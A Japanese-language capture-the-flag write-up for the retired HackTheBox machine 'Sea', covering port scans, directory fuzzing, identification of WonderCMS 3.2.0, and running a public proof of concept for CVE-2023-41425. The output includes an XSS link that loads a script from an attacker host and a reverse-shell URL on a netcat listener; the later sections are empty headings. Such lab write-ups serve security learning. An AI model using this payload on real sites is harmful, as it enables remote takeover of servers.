

# Sea


# 初期偵察
## nmap
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ nmap -sC -sV 10.10.11.28
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-04 22:58 JST
Nmap scan report for 10.10.11.28
Host is up (0.42s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.20 seconds
```

## 名前解決
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.11.28 sea.htb
```

サイトにアクセスすると、バイクのイラストが書かれていて特に重要な情報はなさそう



## ディレクトリ探索
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ gobuster dir -u http://10.10.11.28/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.28/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/0                    (Status: 200) [Size: 3670]
/404                  (Status: 200) [Size: 3361]
/data                 (Status: 301) [Size: 232] [--> http://10.10.11.28/data/]
/Documents and Settings (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3670]
/index.php            (Status: 200) [Size: 3670]
/messages             (Status: 301) [Size: 236] [--> http://10.10.11.28/messages/]
/plugins              (Status: 301) [Size: 235] [--> http://10.10.11.28/plugins/]
/Program Files        (Status: 403) [Size: 199]
/reports list         (Status: 403) [Size: 199]
/server-status        (Status: 403) [Size: 199]
/themes               (Status: 301) [Size: 234] [--> http://10.10.11.28/themes/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```


いくつかのディレクトリが見つかった。さらに深堀していくと、themes/にさらに/home,/bikeが見つかった
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -u http://sea.htb/themes/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sea.htb/themes/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

404                     [Status: 200, Size: 3341, Words: 530, Lines: 85, Duration: 358ms]
home                    [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 410ms]
bike                    [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 225ms]
:: Progress: [43007/43007] :: Job [1/1] :: 167 req/sec :: Duration: [0:05:32] :: Errors: 0 ::
```

/bikeをさらに探索する
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -u http://sea.htb/themes/bike/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sea.htb/themes/bike/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

img                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 516ms]
LICENSE                 [Status: 200, Size: 1067, Words: 152, Lines: 22, Duration: 517ms]
404                     [Status: 200, Size: 3341, Words: 530, Lines: 85, Duration: 210ms]
css                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 2958ms]
home                    [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 233ms
version                 [Status: 200, Size: 6, Words: 1, Lines: 2, Duration: 216ms]
summary                 [Status: 200, Size: 66, Words: 9, Lines: 2, Duration: 351ms]
:: Progress: [43007/43007] :: Job [1/1] :: 117 req/sec :: Duration: [0:05:37] :: Errors: 0 ::
```


```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ curl http://sea.htb/themes/bike/version                
3.2.0
```


```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ curl http://sea.htb/themes/bike/README.md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview


## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```
WonderCMSのversion3.2.0ということが分かったので、検索するとCVEが出てくる

### CVE-2023-41425
XSSを経由したRCEの脆弱性がある


https://github.com/duck-sec/CVE-2023-41425


```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea]
└─$ git clone https://github.com/duck-sec/CVE-2023-41425.git
Cloning into 'CVE-2023-41425'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (19/19), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 19 (delta 5), reused 19 (delta 5), pack-reused 0 (from 0)
Receiving objects: 100% (19/19), 7.91 KiB | 7.91 MiB/s, done.
Resolving deltas: 100% (5/5), done.
```

### リバースシェル
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sea/CVE-2023-41425]
└─$ python3 exploit.py -u http://sea.htb/loginURL  -lh 10.10.14.45 -lp  7777  -sh 10.10.14.45 -sp 8888
##################################
# Wondercms 4.3.2 XSS to RCE     #
# Original POC by prodigiousMind #
# Updated version by Ducksec     #
##################################


Check you got this stuff right!


Parsed arguments:
URL: http://sea.htb/loginURL
LHOST: 10.10.14.45
LPORT: 7777
SRVHOST: 10.10.14.45
SRVPORT: 8888


[+] xss.js is created
[+] Execute the below command in another terminal:

----------------------------
nc -lvp 7777
----------------------------

Send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.45:8888/xss.js"></script><form+action="
----------------------------


[+] Ensure that main.zip is still in this directory.
[+] Once the target successfully requests main.zip it's safe to kill this script.


[+] Once complete, you can also re-exploit by requesting: http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.45&lport=7777

Starting HTTP server to allow access to xss.js
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```


# 初期侵入
# 権限昇格